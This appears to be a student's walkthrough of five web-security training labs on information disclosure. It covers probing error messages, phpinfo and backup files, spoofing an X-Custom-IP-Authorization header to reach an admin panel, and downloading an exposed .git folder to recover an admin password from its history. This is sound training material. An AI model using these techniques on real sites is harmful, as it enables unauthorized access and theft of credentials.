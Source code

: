 ## Lab - 1: Information disclosure in error messages

- This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

- try SQLi at `/product?productId=1'` and found an error message

---

## Lab - 2: Information disclosure on debug page

- This lab contains a debug page that discloses sensitive information about the application. To solve the lab, obtain and submit the SECRET_KEY environment variable.

- found an end point that show phpinfo at `/cgi-bin/phpinfo.php`

- search SECRET_KEY from that page

---

## Lab - 3: Source code disclosure via backup files

- This lab leaks its source code via backup files in a hidden directory. To solve the lab, identify and submit the database password, which is hard-coded in the leaked source code.

- found backup directory at `/backup/ProductTemplate.java.bak`

---

## Lab - 4: Authentication bypass via information disclosure

- This lab's administration interface has an authentication bypass vulnerability, but it is impractical to exploit without knowledge of a custom HTTP header used by the front-end.

- To solve the lab, obtain the header name then use it to bypass the lab's authentication. Access the admin interface and delete Carlos's account.

- You can log in to your own account using the following credentials: wiener:peter

- `/admin` route is not allowed
- send the request with `TRACE /admin` and the response contains `X-Custom-IP-Authorization` header containing your IP address
  > Proxy > Options > Match and Replace > Add > Type: "Request header", Replace: "X-Custom-IP-Authorization: 127.0.0.1"
- Then send request to `/admin` route from the browser

---

## Lab - 5: Information disclosure in version control history

- This lab discloses sensitive information via its version control history. To solve the lab, obtain the password for the administrator user then log in and delete Carlos's account.

- at `/.git` path, there is a git folder

```sh
wget -r https://your-lab-id.com/.git
cd to_download_folder
git log
```

```
commit c2c692df9b49a02ad4e1d56e008f8330caf713e6 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config
```

```sh
git show c2c692df9b49a02ad4e1d56e008f8330caf713e6
```

```
commit c2c692df9b49a02ad4e1d56e008f8330caf713e6 (HEAD -> master)
Author: Carlos Montoya <carlos@evil-user.net>
Date:   Tue Jun 23 14:05:07 2020 +0000

    Remove admin password from config

diff --git a/admin.conf b/admin.conf
index 7ce2a19..21d23f1 100644
--- a/admin.conf
+++ b/admin.conf
@@ -1 +1 @@
-ADMIN_PASSWORD=td6begsw5ot0iidpt3on
+ADMIN_PASSWORD=env('ADMIN_PASSWORD')
```
